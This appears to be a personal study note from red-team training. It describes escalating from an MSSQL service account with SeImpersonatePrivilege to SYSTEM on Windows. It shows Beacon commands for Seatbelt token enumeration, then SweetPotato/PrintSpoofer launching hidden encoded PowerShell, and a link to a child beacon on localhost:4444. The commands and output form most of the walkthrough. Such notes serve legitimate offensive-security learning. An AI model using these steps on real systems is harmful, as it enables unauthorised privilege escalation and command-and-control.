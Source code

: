 This instance of SQL is running as `NT Service\MSSQL$SQLEXPRESS`, which is generally configured by default on more modern SQL installers. It has a special type of privilege called `SeImpersonatePrivilege`. This allows the account to "impersonate a client after authentication".

```
beacon> getuid
[*] You are NT Service\MSSQL$SQLEXPRESS

beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Debug\Seatbelt.exe TokenPrivileges

====== TokenPrivileges ======

Current Token's Privileges

                SeAssignPrimaryTokenPrivilege:  DISABLED
                     SeIncreaseQuotaPrivilege:  DISABLED
                      SeChangeNotifyPrivilege:  SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
                      SeManageVolumePrivilege:  SE_PRIVILEGE_ENABLED
                       SeImpersonatePrivilege:  SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
                      SeCreateGlobalPrivilege:  SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
                SeIncreaseWorkingSetPrivilege:  DISABLED

[*] Completed collection in 0.01 seconds
```

[SweetPotato](https://github.com/CCob/SweetPotato) has a collection of these various techniques which can be executed via Beacon's `execute-assembly` command.  SweetPotato needs to be compiled in Release mode, to ensure the [NtApiDotNet](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/tree/main/NtApiDotNet) assembly is merged.
```
beacon> execute-assembly C:\Tools\SweetPotato\bin\Release\SweetPotato.exe -p C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -a "-w hidden -enc SQBFAF[...snip...]ApAA=="

SweetPotato by @_EthicalChaos_
  Orignal RottenPotato code and exploit by @foxglovesec
  Weaponized JuciyPotato by @decoder_it and @Guitro along with BITS WinRM discovery
  PrintSpoofer discovery and original exploit by @itm4n
[+] Attempting NP impersonation using method PrintSpoofer to launch C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
[+] Triggering notification on evil PIPE \\sql01/pipe/7365ffd9-7808-4a0d-ab47-45850a41d7ed
[+] Server connected to our evil RPC pipe
[+] Duplicated impersonation token ready for process creation
[+] Intercepted and authenticated successfully, launching program
[+] Process created, enjoy!

beacon> connect localhost 4444
[*] Tasked to connect to localhost:4444
[+] host called home, sent: 20 bytes
[+] established link to child beacon: 10.10.18.221
```
 

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 25th 2022 (07:31 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
